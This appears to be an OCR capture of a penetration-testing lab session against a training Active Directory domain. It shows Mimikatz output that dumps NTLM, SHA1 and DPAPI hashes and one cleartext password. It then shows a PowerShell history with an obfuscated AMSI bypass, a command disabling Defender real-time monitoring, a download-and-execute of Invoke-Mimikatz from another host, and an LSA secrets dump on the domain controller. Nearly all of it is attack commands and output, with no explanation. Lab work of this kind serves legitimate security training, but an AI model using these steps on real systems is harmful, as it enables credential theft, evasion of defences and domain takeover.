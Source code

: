 mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 166214 (00000000:00028946)
Session           : RemoteInteractive from 2
User Name         : srvadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 11/26/2020 8:43:30 AM
SID               : S-1-5-21-1874506631-3219952063-538504511-1115
        msv :
         [00000003] Primary
         * Username : srvadmin
         * Domain   : dcorp
         * NTLM     : a98e18228819e8eec3dfa33cb68b0728
         * SHA1     : f613d1bede9a620ba16ae786e242d3027809c82a
         * DPAPI    : ddce77eab64944efda38b5cfdad5395f
        tspkg :
        wdigest :
         * Username : srvadmin
         * Domain   : dcorp
         * Password : (null)
        kerberos :
         * Username : srvadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 67126 (00000000:00010636)
Session           : Service from 0
User Name         : appadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 11/26/2020 8:41:26 AM
SID               : S-1-5-21-1874506631-3219952063-538504511-1117
        msv :
         [00000003] Primary
         * Username : appadmin
         * Domain   : dcorp
         * NTLM     : d549831a955fee51a43c83efb3928fa7
         * SHA1     : 07de541a289d45a577f68c512c304dfcbf9e4816
         * DPAPI    : 7ec84538f109f73066103b9d1629f95e
        tspkg :
        wdigest :
         * Username : appadmin
         * Domain   : dcorp
         * Password : (null)
        kerberos :
         * Username : appadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ActuallyTheWebServer1
        ssp :
        credman :


[dcorp-adminsrv]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]
[dcorp-adminsrv]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollecti
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> . .\Invoke-Mimikatz.ps1
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> powershell -ep bypass
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') +
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> Invoke-Mimikatz
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents>  Invoke-Mimikatz -Command '"lsadump::lsa /patch"'